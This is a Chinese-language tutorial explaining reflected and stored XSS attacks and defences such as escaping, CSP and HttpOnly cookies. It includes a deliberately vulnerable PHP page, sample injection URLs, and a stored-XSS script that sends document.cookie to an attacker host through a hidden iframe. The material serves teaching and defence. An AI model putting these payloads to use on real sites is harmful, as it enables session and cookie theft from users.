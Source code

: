 # XSS 跨站脚本攻击


---

随着互联网技术的发展，现在的Web应用都含有大量的动态内容以提高用户体验。所谓动态内容，就是应用程序能够根据用户环境和用户请求，输出相应的内容。动态站点会受到一种名为“跨站脚本攻击”（Cross Site Scripting, 安全专家们通常将其缩写成 XSS）的威胁，而静态站点则完全不受其影响。

##什么是 XSS
XSS 是一种常见的 web 安全漏洞，它允许攻击者将恶意代码植入到提供给其它用户使用的页面中。不同于大多数攻击(一般只涉及攻击者和受害者)，XSS 涉及到三方，即攻击者、客户端与Web应用。XSS 的攻击目标是为了盗取存储在客户端的 cookie 或者其他网站用于识别客户端身份的敏感信息。一旦获取到合法用户的信息后，攻击者甚至可以假冒合法用户与网站进行交互。

**总之，XSS 能做用户使用浏览器能做的一切事情。包括获取用户的 cookie 等重要隐私信息的操作。另外，同源策略无法保证不受 XSS 攻击，因为此时攻击者就在同源之内**

##XSS 工作原理
XSS通常可以分为两大类：

- 客户端型
- 服务端型

无论是哪一种 XSS，其目前主要的手段和目的如下：

- 盗用cookie，获取敏感信息。
- 利用植入Flash，通过crossdomain权限设置进一步获取更高权限；或者利用Java等得到类似的操作。
- 利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击者）- 用户的身份执行一些管理动作，或执行一些如:发微博、加好友、发私信等常规操作，前段时间新浪微博就遭遇过一次XSS。
- 利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。
- 在访问量极大的一些页面上的XSS可以攻击一些小型网站，实现DDoS攻击的效果

###客户端型 xss 攻击

客户端型 xss 攻击是一次性的，仅对当次的页面访问产生影响。客户端型 xss 攻击要求用户访问一个被攻击者篡改后的链接，用户访问该链接时，被植入的攻击脚本被用户游览器执行，从而达到攻击目的。

假设有以下index.php页面：
```
<?php
$name = $_GET['name'];
echo "Welcome $name<br>";
echo "<a href="http://www.cnblogs.com/bangerlee/">Click to Download</a>";
?>
```
该页面显示两行信息：

从URI获取 'name' 参数，并在页面显示
显示跳转到一条URL的链接
这时，当攻击者给出以下URL链接：
```
index.php?name=guest<script>alert('attacked')</script>
```
当用户点击该链接时，将产生以下html代码，带'attacked'的告警提示框弹出：
```
Welcome guest
<script>alert('attacked')</script>
<br>
<a href='http://www.cnblogs.com/bangerlee/'>Click to Download</a>
```

除了插入alert代码，攻击者还可以通过以下URL实现修改链接的目的：

```
index.php?name=
<script>
window.onload = function() {
var link=document.getElementsByTagName("a");link[0].href="http://attacker-site.com/";}
</script>
```
当用户点击以上攻击者提供的URL时，index.php页面被植入脚本，页面源码如下：
```
<script>
window.onload = function() {
var link=document.getElementsByTagName("a");link[0].href="http://attacker-site.com/";}
</script>
<br>
<a href='http://www.cnblogs.com/bangerlee/'>Click to Download</a>
```
用户再点击 "Click to Download" 时，将跳转至攻击者提供的链接。

##服务端型 XSS 攻击
服务端型的 XSS 攻击与客户端型的运行原理类似。 其本质上是注入攻击。区别在于服务端型的恶意代码可以复用，并且不需要引诱用户点击某个连接。

还记得之前浏览器同源策略的知识吗？
浏览器的同源策略虽然对 ajax 请求做了限制，现代浏览器对于某些 xss 而已代码也做了过滤。但是，对于服务端返回的嵌入式资源的跨域交互是允许的！

黑客将将恶意代码通过某个操作，写入被攻击服务器的数据库中，接着在某个数据列表展示页面中通过嵌入 js 代码，迫使用户的浏览器执行恶意 javascript 代码来达到 XSS 攻击的目的。
就像下面这样：
```
// 用 <script type="text/javascript"></script> 包起来放在评论中

(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);

```
##如何避免 XSS 攻击
- 对于任何用户输入的信息，入库之前都要进行转义。
- 使用浏览器自带的 xss filter
现代浏览器都对反射型xss有一定的防御力，其原理是检查url和dom中元素的相关性。但这并不能完全防止反射型xss。另外，浏览器对于存储型xss并没有抵抗力，原因很简单，用户的需求是多种多样的。所以，抵御xss这件事情不能指望浏览器。
- CSP(Content Security Policy)
从原理上说防止xss是很简单的一件事，但实际中，业务代码非常多样和复杂，漏洞还是是不是会出现。 CSP 并不是用来防止xss攻击的，而是最小化xss发生后所造成的伤害。事实上，除了开发者自己做好xss转义，并没有别的方法可以防止xss的发生。CSP可以说是html5给web安全带来的最实惠的东西。。CSP的作用是限制一个页面的行为不论是否是javacript控制的。如何引入CSP呢？

假设现在需要完成一个只允许脚本从本源加载资源的设置，则有两种方式。

*通过response头*
```Content-Security-Policy: script-src ‘self’```
*通过HTML的META标签*
```<meta http-equiv=”Content-Security-Policy” content=”script-src ‘self'”>```
*CSP 策略常用限制功能*
```
base-uri : 限制这篇文档的uri  
child-src ：限制子窗口的源(iframe,弹窗等),取代frame-src  
connect-src ：限制脚本可以访问的源  
font-src : 限制字体的源  
form-action : 限制表单能够提交到的源  
frame-ancestors : 限制了当前页面可以被哪些页面以iframe,frame,object等方式加载  
frame-src ：deprecated with child-src,限制了当前页面可以加载哪些源，与frame-ancestors对应 
img-src : 限制图片可以从哪些源加载  
media-src : 限制video, audio, source, track 能够从哪些源加载  
object-src ：限制插件可以从哪些源加载  
sandbox ：强制打开沙盒模式

```

CSP是一个强大的策略，几乎可以限制了所有能够用到的资源的来源。使用好CSP可以很大成都降低XSS带来的风险
CSP 目前有两版，CSP1 和CSP2， 两版的支持状态可以在 http://caniuse.com/#search=csp 中查到。

- Http-Only
使用 http-only 保护cookie。可以保证即使发生了xss，用户的cookie也是安全的。使用http-only 保护的cookie是不会被 javascript 读写的。所以无论是客户端还是服务端的 XSS 攻击，都无法通过 js 获取到用户的 cookie 信息。


##总结
XSS 与 CSRF 攻击都是属于高危攻击手段。即使是在现代浏览器、同源策略以及 html5 的强大防线下，他们依然能够对 web 应用产生巨大的危害。
在开发 web 应用时，应该合理利用 http-only、CSP 策略、以及用户输入信息转义，能够将 XSS 与 CSRF 的风险降到最低。

---

Copyright 2017/08/15 by Chuck Lin

#####参考链接
- [避免 SQL 注入](https://github.com/astaxie/build-web-application-with-golang/blob/master/zh/09.4.md), by wuyuanwei
- [Web 攻击与防护](http://liuwanlin.info/webgong-ji-yu-fang-hu/), by liuwulin
- [浏览器的同源策略](https://developer.mozilla.org/zh-CN/docs/Web/Security/Same-origin_policy)
- [总结 XSS 与 CSRF 两种跨站攻击](https://blog.tonyseek.com/post/introduce-to-xss-and-csrf/)
- [XSS 攻击入门](http://www.cnblogs.com/bangerlee/archive/2013/04/06/3002142.html)
- [关于Web安全，99%的网站都忽略了这些](https://blog.wilddog.com/?p=290), by wilddog
- [预防跨站点请求伪造：了解浏览器选项卡中的隐藏危险](https://www.ibm.com/developerworks/cn/web/se-appscan-detect-csrf-xsrf/)
- [CSRF 攻击的应对之道](http://www.importnew.com/5839.html)

若文章有幸帮到了您，您可以捐助我，以鼓励我写出更棒的作品！

![alipay.jpg-17.7kB][1]![wechat.jpg-16.7kB][2]


[1]: http://static.zybuluo.com/mikumikulch/6g65s5tsspdmsk87a8ariszo/alipay.jpg
[2]: http://static.zybuluo.com/mikumikulch/rk5hldgo4wi9fv23xu3vm8pf/wechat.jpg



